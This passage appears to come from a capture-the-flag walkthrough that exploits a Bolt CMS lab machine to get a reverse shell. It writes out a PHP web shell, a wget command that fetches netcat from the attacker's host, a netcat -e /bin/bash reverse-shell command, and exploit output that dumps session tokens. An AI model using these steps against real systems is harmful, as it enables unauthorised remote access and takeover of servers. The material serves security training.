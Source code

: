 <br>
<h2> Task 5 . Reverse shell</h2>
<p><code>python3 exploit.py http://ip username password </code></p>

<img width="1903" height="637" alt="image" src="https://github.com/user-attachments/assets/895df3f9-f7ee-4486-88c1-504dd43b4575" />

<p>We can create a simple php-shell on the server, like this:echo '<?php system($_GET["c"]);?>'>c.phpThis we can use to upload a netcat reverse shell on the system and get a reverse shell, as there is no netcat on the box.
If you are using Kali Linux, the netcat installed supports the -e parameter (execute). Using this parameter we can start a shell upon connecting. 

The e parameter is often removed from netcat in a lot of the Linux distributions, because it can be exploited to gain a shell. :-)

First we link the installed netcat to the current directory on our attacking machine:

ln -s $(which nc) .

Then we start a simple web server to serve some files, make sure the files you want to serve are in the current directory:

This will listen on port 8000 on you local machine: python3 -m http.server 8000

Using the c.php file we just dropped, we can browse tohttp://serverip/files/cmd.php?c=wget http://yourip:8000/ncto
download a linux netcat to the server, you will see in your web server if it has been retrieved:

This file is dropped in the same directory as our c.php. We make this nc executable like this: http://serverip/files/cmd.php?c=chmod 755 nc

Now start a netcat listener on your own machine, listening on a free port (we use 4444 here)

ncat -nv -l -p 4444

When it is uploaded and made executable, we can run it like this:

http://serverip/files/cmd.php?c=./nc -e /bin/bash yourip 4444


If all goes well, you will see a connection coming in from the bolt server:
(Don’t forget to do the python pty dance, to make sure you have a shell with PTY’s allocated, some commands, especially sudo, require a PTY shell to run)


python -c 'import pty;pty.spawn("/bin/bash")'</p>

<p><em>Answer the question below</em></p>

<p>5.1. What is the username of the user running the web server? Hint : id<br>
<code>python</code></p>

```bash
Enter OS command , for exit 'quit' : echo '<?php system($_GET["c"]);?>'>c.php
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:2:"10";s:10:"*user_id";i:1;s:8:"*token";s:64:"e24a8ffc4daebd4b1b586ae4cbadb4be735d14ab3de9d49282260f592bec0459";s:7:"*salt";s:32:"1e7ed5c76f11a3bdc2ee3623f4c9bdc2";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 16:01:38.867697";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:13:"192.168.100.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 16:01:38.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587830498;}s:10:"_csrf/bolt";s:43:"-kIwVPHftVt0SZ3XJ_uBEDpT2x-COHYjo4ZSN5H7NUE";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"Spoy_vDCzRmnuZPfXYVJNmphWLl7Dv4kuc89Yev_2ag";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587830500;s:1:"c";i:1587830498;s:1:"l";s:1:"0";}}
```
